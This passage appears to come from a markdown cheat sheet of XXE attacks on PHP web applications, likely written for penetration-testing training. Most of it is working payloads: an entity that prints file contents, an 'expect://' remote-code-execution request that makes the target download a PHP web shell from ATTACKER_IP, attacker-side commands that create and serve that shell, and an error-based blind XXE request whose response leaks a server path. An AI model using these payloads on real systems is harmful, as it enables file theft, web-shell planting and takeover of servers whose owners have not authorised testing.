 ``` HTTP
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&joined;</email>    <!-- reference the &joined; entity to print the file content -->
	<message>123</message>
</root>
```
---
## Remote Code Execution
### PHP 
This method requires the PHP `expect` module to be installed and enabled.
* Attacker host
``` bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
* Send the request with payload
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP/shell.php'">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
---
## Blind XXE
### Error Based XXE
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input
- Request
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel>1</tel>
<email>&joined;</email>
<message>1</message>
</root>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<br />
<b>Warning</b>:  DOMDocument::loadXML(): Entity 'joined' not defined in Entity, line: 5 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/error/submitDetails.php</b>
[SNIP]....
Check your email for further instructions.
```